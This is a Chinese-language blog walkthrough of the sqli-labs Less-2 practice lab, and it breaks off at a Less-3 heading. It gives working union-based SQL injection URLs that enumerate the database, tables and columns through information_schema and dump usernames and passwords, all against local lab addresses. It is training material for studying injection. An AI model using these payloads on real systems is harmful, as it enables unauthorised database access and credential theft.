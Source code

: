 **sql-labs_less-2**   基于错误的GET整型注入

这个和第一个基本上都是一样的，唯一的区别就是$id 没有加单引号

那就和1是一样的，将-1后面的单引号去掉就好了，完整做一遍：

order by 猜字段：到4 的时候报错，1，2，3都是正常的

`http://172.16.60.103/sql-labs/Less-2/?id=-1 order by 4%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_01.png" />

然后和第一个一样：`http://127.0.0.1/Less-2/?id=-1 union select 1,2,concat_ws(char(32,58,32),version(),user(),database())%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_02.png" />

这个时候就知道了 数据库用户root@localhost  ；数据库名字 security ；数据库版本5.5.53

再次使用：  `http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,table_name%20from%20information_schema.tables%20where%20table_schema%20=%20%27security%27%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_03.png" />

一直使用limit，直到出现：users（出现是在limit 3,1%23）

`http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,column_name%20from%20information_schema.columns%20where%20table_schema%20=%20%27security%27%20and%20table_name%20=%20%27users%27%20limit%201,2%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_04.png" />

查询账号和密码：

`http://127.0.0.1/Less-2/?id=-1 union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23`

或者是使用group_concat()： `http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,group_concat(char(32),username,char(32))%20from%20users%20limit%200,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_05.png" />

然后使用函数也可以获得password：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_06.png" />

结合两个函数使用的话，直接对应账号和密码：

`http://127.0.0.1/Less-2/?id=-1%20union%20select%201,2,group_concat(char(32),password,char(32),username,char(32))%20from%20users%20limit%200,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_07.png" />





**sql-labs_less-3**  **GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)** 
